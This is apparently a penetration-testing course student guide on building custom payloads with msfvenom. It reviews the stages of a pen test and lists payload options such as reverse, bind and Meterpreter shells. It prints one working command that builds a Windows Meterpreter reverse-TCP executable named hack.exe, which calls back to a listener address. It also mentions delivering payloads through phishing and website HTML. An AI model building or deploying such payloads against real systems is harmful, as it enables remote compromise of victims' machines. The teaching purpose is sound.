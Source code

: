 ## 17.3 Student Guide: Custom Payloads with msfvenom

### Overview

In this lesson, we will conclude our two units on pen testing by crafting custom payloads. 

### Class Objectives

By the end of class, you will be able to:

- Create custom payloads.

- Add payloads to websites by altering HTML. 

- Assess their overall penetration test engagement skills. 

____


### 01. Custom Payloads

Review the five pen testing stages: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

Today's class will continue with Post Exploitation.

Think back to the last class. While making a Meterpreter session, we used the following custom payload: 

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

Today, we'll learn how to create payloads like this one using Metasploit.

- Remember a payload is the shell code that runs when an exploit successfully compromises a system.

- Attackers typically build custom payloads that they can use in phishing emails or add to their websites. When unsuspecting users click the link for the malicious payload, their computers are infected.

The exploitation of services is not as common as it was a decade ago. This is due to the use of defense countermeasures like endpoint detection and response,  AV solutions, and IPS/IDS implementation. 

- While patching mitigates vulnerable services, attackers will deliver custom payloads through social engineering if they cannot exploit services.

- Since C2 servers have dynamic IP addresses, attackers often have to create their own customized payloads that call back to their C2 server using SYN packets.

- Custom payloads allow customization of various payload options such as:

  - Architecture
  - Shell type
     - Reverse
     - Bind
     - Meterpreter
     - Other proprietary C2 shell
